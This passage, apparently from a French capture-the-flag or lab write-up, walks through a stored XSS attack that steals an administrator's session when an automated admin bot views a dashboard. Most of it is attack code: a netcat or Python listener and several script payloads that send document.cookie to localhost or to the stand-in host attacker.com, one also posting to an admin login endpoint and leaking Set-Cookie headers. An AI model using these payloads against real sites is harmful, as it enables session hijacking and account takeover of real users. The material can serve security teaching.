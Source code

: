 ### Étape 3 : Déclenchement de l'Exploit

1. **Soumettre le formulaire** avec le payload XSS
2. **Attendre que l'admin visite** le tableau de bord (bot automatique)
3. **Le JavaScript s'exécute** dans le contexte de l'administrateur

### Étape 4 : Vol de Session

1. **Intercepter les cookies** envoyés par le payload
2. **Utiliser la session volée** pour se connecter en tant qu'admin

## 🛠️ Méthodes d'Exploitation

### Méthode 1 : Utilisation d'un Serveur d'Attaque

1. **Démarrer un serveur d'écoute** :
```bash
# Python 3
python3 -m http.server 8080

# Ou avec netcat
nc -lvp 8080
```

2. **Payload adapté** :
```html
<script>
fetch('http://localhost:8080/steal?cookie=' + document.cookie);
</script>
```

### Méthode 2 : Exploitation Directe

1. **Payload pour afficher les cookies** :
```html
<script>alert(document.cookie);</script>
```

2. **Payload pour rediriger** :
```html
<script>window.location='http://attacker.com/steal?cookie='+document.cookie;</script>
```

### Méthode 3 : Exploitation Avancée

1. **Payload pour voler et utiliser la session** :
```html
<script>
var xhr = new XMLHttpRequest();
xhr.open('POST', '/admin-login', false);
xhr.setRequestHeader('Content-Type', 'application/json');
xhr.send(JSON.stringify({
    username: 'admin',
    
}));

// Envoyer les cookies volés
fetch('http://attacker.com/steal?cookie=' + document.cookie + '&session=' + xhr.getResponseHeader('Set-Cookie'));
</script>
```
